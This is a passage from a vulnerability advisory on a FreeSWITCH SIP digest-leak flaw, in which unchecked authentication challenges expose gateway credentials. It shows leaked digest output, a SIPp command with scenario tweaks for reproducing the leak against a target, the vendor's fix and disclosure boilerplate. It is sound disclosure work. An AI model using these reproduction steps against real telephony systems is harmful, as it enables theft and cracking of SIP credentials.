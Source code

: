 ```
    issues:
    - digestleak:
        response: 6b4f4d6c4d9a086190bd27e410cd1fe4, realm=demo.sipvicious.pro, 
			nonce=8B05, uri=sip:1001@172.17.0.1:51518;transport=udp, 
			method=BYE, username=1000
```

Alternatively, SIPp may be used with a modified version of the Digest leak scenario from [tomeko.net][1] as follows:

```
sipp 192.168.188.128:5080 -sf uac_digest_leak.xml -s 1002 -m 1
```

Note: in the [scenario][1] from tomeko.net, make sure to replace the `WWW-Authenticate` header with `Proxy-Authenticate`, set the correct realm (e.g. `demo.sipvicious.pro`) and set 183 responses as optional.

[1]: https://tomeko.net/other/sipp/sipp_cheatsheet.php?lang=en

## Solution and recommendations

Upgrade to a version of FreeSWITCH that fixes this issue.

Our suggestion to the FreeSWITCH developers was the following:

> The vulnerability appears to be due to the code which handles challenges in `sofia_reg.c`, `sofia_reg_handle_sip_r_challenge()` which does not check if the challenge is originating from the actual gateway. The lack of these checks allows arbitrary UACs (and gateways) to challenge any request sent by FreeSWITCH with the realm of the gateway being targeted.

> Our recommendation is to create an association between a SIP session for each gateway and its realm, and then a check is put in place for this association when responding to challenges.

## About Enable Security

[Enable Security](https://www.enablesecurity.com) develops offensive security tools and provides quality penetration testing to help protect your real-time communications systems against attack.

## Disclaimer

The information in the advisory is believed to be accurate at the time of publishing based on currently available information. Use of the information constitutes acceptance for use in an AS IS condition. There are no warranties with regard to this information. Neither the author nor the publisher accepts any liability for any direct, indirect, or consequential loss or damage arising from use of, or reliance on, this information.

## Disclosure policy

This report is subject to Enable Security's vulnerability disclosure policy which can be found at <https://github.com/EnableSecurity/Vulnerability-Disclosure-Policy>.

